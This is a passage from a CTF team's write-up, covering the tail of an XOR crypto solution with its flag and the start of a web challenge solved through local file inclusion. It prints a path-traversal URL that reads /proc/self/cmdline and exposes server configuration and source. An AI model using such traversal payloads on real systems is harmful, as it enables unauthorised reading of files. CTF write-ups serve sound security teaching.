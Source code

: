 ```python
enc = xor_str(key * (len(flag) // len(key) + 1), flag)

print(enc.decode('hex'))
```

Examining the output of the decrypted data revealed the keyword `PNG` towards the start of the content. Opening the file as an image then revealed the final flag.

**Flag:** `ASIS{juSt_S!mpl3_Cryp7o_f0r_perFect_guy5_l1ke_You!}`

<hr>

# Challenge: Golem is stupid!
## Description
Golem is an animated anthropomorphic being that is magically created entirely from inanimate matter, but Golem is stupid!

## Categories
Web

## Solver(s)
[@Odin_The_Mighty](https://twitter.com/Odin_The_Mighty)
[@iamrastating](https://twitter.com/iamrastating)
[@JayHarris_Sec](https://twitter.com/JayHarris_Sec)

## Solution
After submitting the form that is initially presented, we were taken to a page which contained a LFI in the query string parameter, `name`.

After a **lot** of fumbling around, we were able to find the command and arguments that were used to launch the web application on the server, by accessing `https://golem.asisctf.com/article?name=../../../../../../%2fproc%2fself%2fcmdline`; which was:

```
/usr/bin/uwsgi --ini /usr/share/uwsgi/conf/default.ini --ini /etc/uwsgi/apps-enabled/golem_proj.ini --daemonize /var/log/uwsgi/app/golem_proj.log
```

Now that we had a path to the configuration file for the Golem web app / project, we were able to access this using the same LFI, which then subsequently led to the main file of the web application itself, which was in `/opt/serverPython/golem/server.py`:

```python
#!/usr/bin/python
import os

from flask import (
	Flask,
	render_template,
	request,
    url_for,
	redirect,
	session,
	render_template_string
)
from flask.ext.session import Session

app = Flask(__name__)


execfile('flag.py')
execfile('key.py')
```